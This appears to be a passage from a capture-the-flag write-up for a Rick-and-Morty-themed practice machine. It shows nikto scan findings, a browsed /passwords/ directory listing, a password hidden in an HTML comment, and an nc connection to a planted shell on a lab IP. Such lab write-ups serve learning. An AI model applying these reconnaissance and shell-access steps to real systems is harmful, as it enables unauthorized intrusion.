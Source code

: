 ```
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Allowed HTTP Methods: POST, OPTIONS, HEAD, GET, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-3268: /passwords/: Directory indexing found.
+ OSVDB-3092: /passwords/: This might be interesting...
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8345 requests: 0 error(s) and 10 item(s) reported on remote host
+ End Time:           2018-08-14 21:24:18 (GMT-6) (19 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

## Exploring password directories discovered
```
Index of /passwords
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory 	 	- 	 
[TXT]	FLAG.txt 	2017-08-22 02:31 	44 	 
[TXT]	passwords.html 	2017-08-23 19:51 	352 	 
```

FLAG Found
```
FLAG{Yeah d- just don't do it.} - 10 Points
```

## Research passwords.html
```
<!DOCTYPE html>
<html>
<head>
<title>Morty's Website</title>
<body>Wow Morty real clever. Storing passwords in a file called passwords.html? You've really done it this time Morty. Let me at least hide them.. I'd delete them entirely but I know you'd go bitching to your mom. That's the last thing I need.</body>
<!--Password: winter-->
</head>
</html>
```

## Connecting to port 60000
### net cat to the port
```
nc 192.168.253.128 60000
Welcome to Ricks half baked reverse shell...
# ls
FLAG.txt 
```
